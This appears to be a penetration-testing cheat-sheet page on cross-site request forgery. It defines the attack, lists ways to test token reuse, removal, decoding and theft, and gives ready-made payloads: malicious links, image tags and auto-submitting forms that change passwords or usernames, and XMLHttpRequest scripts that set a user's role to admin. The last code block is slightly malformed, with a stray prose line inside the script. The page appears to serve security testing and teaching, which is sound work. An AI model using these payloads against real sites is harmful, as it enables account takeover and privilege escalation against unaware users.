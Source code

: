 ```yaml
---
description: Cross Site Request Forgery
---
```


# CSRF

An attack where a victim unknowingly causes their browser to perform an unwanted action on a site where they are already authenticated.  This can be caused via the attacker using some form of social engineering to fool a user into opening a malicious link, e-mail, instant message or program which automates the action.  


An unrealistic and simplified example would be a victim clicking on a link like https://paypal.com/user/sadvictim/sendfunds/99999dollars/touser/bad\_daddy or https://facebook.com/user/ignoramus/changepassword?newpassword=123456 , though the links would be portrayed as something else and the victim already has logged-in cookies to those domains.

The vulnerability is available if you can use the same CSRF token across multiple accounts \(check your cookies to find it\). You can build a poc by...  


* Login to account 1
* Go to password change page
* Capture CSRF token
* Logout and login to account 2 
* Go to password change page
* Intercept request with a proxy and replace token

Or perhaps you can figure out the CSRF token if the implementation sucks.  


* Keep length of token consistent and try replacing characters \(Burp has great intruder functionality for this, or just CSRF test for the lazy\)
* Try removing the token from the request
* Try to decode the CSRF token \(typically MD5 or base64\)
* HTML Injection with something like &lt;form action="url.com/acquire\_token.php"&gt;&lt;/textarea&gt;
* Check to see if part of a token is static and cut off the the dynamic part, I've seen bug bounty write-ups where the web app only checked the first part of the token.

\*\*\*\*

**Via GET request**  
requiring user interaction:  
`<a href="http://site.com/api/setuserpassword=babyboy">Click Me!</a>`  
Not requiring user interaction \(will happen as soon as browser loads\)  
`<img src="http://site.com/api/setuserpassword=badbaby">`

**Via POST request**  


User Interaction Required

```text
<form action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="baddaddy" />
 <input type="submit" value="Submit Request" />
</form>
```

User Interaction Not Required

```text
<form id="autosubmit" action="http://site.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="badboy" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```

**Via json GET**

```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.xyz.com/api/currentuser");
xhr.send();
</script>
```

**Via json POST**  


```text
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.setRequestHeader("Content-Type", "text/plain");
You will probably want to also try one or both of these
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
_______________________OR______________________________
`<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://site.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>``
```


